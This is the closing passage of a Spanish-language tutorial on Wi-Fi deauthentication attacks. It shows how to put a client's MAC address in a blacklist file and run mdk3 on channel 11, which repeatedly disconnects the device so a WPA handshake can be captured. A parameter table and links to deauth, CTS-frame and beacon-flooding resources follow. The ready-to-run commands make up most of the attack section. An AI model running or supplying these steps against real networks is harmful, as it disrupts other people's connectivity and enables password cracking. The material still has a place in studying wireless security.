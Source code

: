 En mi caso, solamente tengo un dispositivo conectado a ese **AP**. Vamos a copiar la **MAC** de la estación y a pegarla en un fichero:
```bash
nano blacklist
MAC:DE:MI:CEL:XD
```

Después de guardar y salir, vamos a usar la herramienta **mdk3** de la siguiente manera:
```bash
mdk3 wlan0 d -w blacklist -c 11

Periodically re-reading blacklist/whitelist every 3 seconds
```

| Parámetros | Descripción |
|--------------------------|
| *d*        | Para indicar el ataque Awok.|
| *-w*       | Para usar un fichero. |
| *-c*       | Para indicar el canal. |

<br>

Si revisaste tu celular, verás que te desconectara de la red cada 3 segundos, de esta manera ya obtendremos un **handshake**.

Aquí tienes un link con más información:
* <a href="https://security.stackexchange.com/questions/152928/how-deauth-attack-works-in-mkd3" target="_blank">How deauth attack works in mkd3</a>


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/R3LI4NT/articulos/blob/main/Redes/GNU-Linux/desautenticacion.md
* https://www.aircrack-ng.org/doku.php?id=es:fake_authentication
* https://blog.isecauditors.com/2021/03/wi-fi-dos-cts-frame-attack.html
* https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame
* https://medium.com/infosec-adventures/beacon-flooding-attack-a4baadc2242b
* https://security.stackexchange.com/questions/152928/how-deauth-attack-works-in-mkd3
* https://www.tusclasesparticulares.com/blog/que-direccion-mac-tipos-existen
* https://www.avg.com/es/signal/boost-home-wi-fi-signal-strength
* https://es.wikipedia.org/wiki/Endianness


<br>
# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
